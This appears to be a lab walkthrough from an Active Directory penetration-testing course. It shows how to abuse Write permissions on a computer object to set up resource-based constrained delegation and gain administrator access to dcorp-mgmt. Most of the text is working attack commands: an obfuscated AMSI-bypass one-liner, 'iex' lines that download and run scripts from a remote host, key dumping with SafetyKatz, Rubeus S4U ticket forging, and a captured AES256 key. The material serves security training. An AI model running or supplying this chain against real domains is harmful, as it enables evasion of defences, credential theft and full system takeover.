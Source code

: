 # ✍️ Find Computer in domain with Write permissions and access as Domain Admin

Let's start by using Powerview to enumerate Write permissions for a user that we have compromised. After trying from multiple users or using BloodHound we would know that the user ciadmin has Write permissions on the computer object of dcorp-mgmt ->&#x20;

```
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
 . .\PowerView.ps1
Find-InterestingDomainACL | ?{$_.identityreferencename -match 'ciadmin'}
```

<figure><img src="../../.gitbook/assets/image (9) (1) (1).png" alt=""><figcaption><p>S-1-5-21-719815819-3726368948-3917688648-1121</p></figcaption></figure>

Recall that we compromised ciadmin from dcorp-ci. We can either use the reverse shell we have on dcorp-ci as ciadmin or extract the credentials from dcorp-ci.

{% content-ref url="elevate-privileges-and-gain-a-shell.md" %}
[elevate-privileges-and-gain-a-shell.md](elevate-privileges-and-gain-a-shell.md)
{% endcontent-ref %}

Now on the shell ->

```
iex (iwr http://172.16.100.13:8787/sbloggingbypass.txt -UseBasicParsing)
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
iex ((New-Object Net.WebClient).DownloadString('http://172.16.100.13:8787/PowerView.ps1'))
Set-DomainRBCD -Identity dcorp-mgmt -DelegateFrom 'dcorp-std613$' -Verbose
Get-DomainRBCD
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
SourceName                 : DCORP-MGMT$
SourceType                 : MACHINE_ACCOUNT
SourceSID                  : S-1-5-21-719815819-3726368948-3917688648-1108
SourceAccountControl       : WORKSTATION_TRUST_ACCOUNT
SourceDistinguishedName    : CN=DCORP-MGMT,OU=Servers,DC=dollarcorp,DC=moneycorp,DC=local
ServicePrincipalName       : {WSMAN/dcorp-mgmt, WSMAN/dcorp-mgmt.dollarcorp.moneycorp.local, TERMSRV/DCORP-MGMT,
                             TERMSRV/dcorp-mgmt.dollarcorp.moneycorp.local...}
DelegatedName              : DCORP-STD613$
DelegatedType              : MACHINE_ACCOUNT
DelegatedSID               : S-1-5-21-719815819-3726368948-3917688648-15112
DelegatedAccountControl    : WORKSTATION_TRUST_ACCOUNT
DelegatedDistinguishedName : CN=DCORP-STD613,OU=StudentMachines,DC=dollarcorp,DC=moneycorp,DC=local
```

Now we need the AES keys of t student VM (as we configured RBCD for it above)

```
C:\AD\Tools\Loader.exe -Path C:\AD\Tools\SafetyKatz.exe -Command "sekurlsa::ekeys" "exit"
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>50083fa125e328c8b5333ac2dfc62c3e47eb8f6bc0acf08b1ca15eb35894140e</p></figcaption></figure>

```
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn% /user:dcorp-std613$ /aes256:50083fa125e328c8b5333ac2dfc62c3e47eb8f6bc0acf08b1ca15eb35894140e /msdsspn:http/dcorp-mgmt /impersonateuser:administrator /ptt
```

<figure><img src="../../.gitbook/assets/image (1130).png" alt=""><figcaption></figcaption></figure>

Now that the ticket is imported we can connect via winrs

<figure><img src="../../.gitbook/assets/image (1132).png" alt=""><figcaption></figcaption></figure>

```
winrs -r:dcorp-mgmt cmd
```
